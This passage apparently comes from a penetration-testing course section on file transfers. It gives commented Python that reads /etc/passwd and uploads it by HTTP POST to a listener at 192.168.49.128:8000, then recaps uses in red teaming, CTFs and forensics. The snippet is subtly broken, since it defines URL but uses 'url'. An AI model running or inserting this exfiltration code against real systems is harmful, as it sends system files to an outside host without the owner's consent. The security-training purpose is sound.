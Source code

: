 Let's divide this one-liner into multiple lines to understand each piece better.

Code: python

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.

---

## Section Recap

Understanding how we can use code to download and upload files may help us achieve our goals during a red teaming exercise, a penetration test, a CTF competition, an incident response exercise, a forensic investigation, or even in our day-to-day sysadmin work.